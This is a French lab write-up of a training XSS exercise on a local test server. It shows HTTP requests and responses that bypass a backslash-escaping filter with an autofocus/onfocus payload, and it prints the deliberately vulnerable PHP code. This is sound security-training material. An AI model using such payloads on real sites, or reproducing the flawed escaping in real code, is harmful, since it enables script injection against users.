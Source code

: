 # xxs6

## Exploitation

Afin de protéger l'application, l'auteur indique qu'il échappe maintenant le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (2).png>)

Le caractère `"` subit effectivement un traitement, il s'agit d'un échappement par l'insertion du caractère `\` :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2100
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\"" placeholder="keyword" required>
</div>
```

![](<../../../.gitbook/assets/image (6).png>)

Le contournement qui me parait le plus évident à tester est d'insérer également un caractère `\` afin d'échapper l'échappement :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2101
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\"" placeholder="keyword" required>
</div>
```

Cela semble fonctionner :&#x20;

![](../../../.gitbook/assets/image.png)

Il ne me reste plus qu'à adapter ma payload basée sur l'autofocus `whatever\" onfocus=alert(1) autofocus x=\"` (attention, j'enlève également les guillemets autour du code Javascript) :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22+onfocus%3Dalert%281%29+autofocus+x%3D%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2134
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\" onfocus=alert(1) autofocus x=\\"" placeholder="keyword" required>
 </div>       
```

![](<../../../.gitbook/assets/image (3).png>)

## Analyse du code source

La fonction `xss_check()` effectue un traitement sur le caractère `"` qui se retrouve échappé par l'ajout d'un `\` devant chaque occurrence. Le mot clé est ensuite affiché en tant que valeur de l'attribut HTML `value` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace('"', '\"', $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
